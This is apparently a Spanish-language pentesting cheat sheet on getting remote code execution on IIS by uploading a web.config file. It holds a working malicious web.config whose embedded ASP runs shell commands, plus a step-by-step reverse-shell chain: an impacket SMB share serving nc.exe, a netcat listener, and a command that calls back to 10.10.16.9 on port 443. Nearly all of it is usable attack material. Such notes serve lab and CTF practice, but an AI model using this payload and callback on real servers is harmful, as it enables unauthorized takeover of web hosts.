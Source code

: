 ** RCE by uploading a web.config file **
https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

``` XML

<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>

```

Ganar acceso al sistema:
* En local: 
	* Crear un servidor SMB desde el que compartir 'nc.exe' para poder recibir una reverse shell.
	* `impacket-smbserver smbFolder $(pwd) -smb2support`
	* Poner en escucha un puerto con netcat donde recibir la reverse shell.
	* `rlwrap nc -nlvp 443`
	* Retocar fichero web.config con un comando para hacer uso de nc.exe y mandar una reverse shell.
	* `cmd.exe /c \\10.10.16.9\smbFolder\nc.exe -e cmd 10.10.16.9 443`
	* Subir fichero web.config al servidor vulnerable.
	* Apuntar al fichero subido.
	* `http://<sevidor_vulnerable>/UploadedFiles/web.config`
	* Recibiremos una reverse shell. 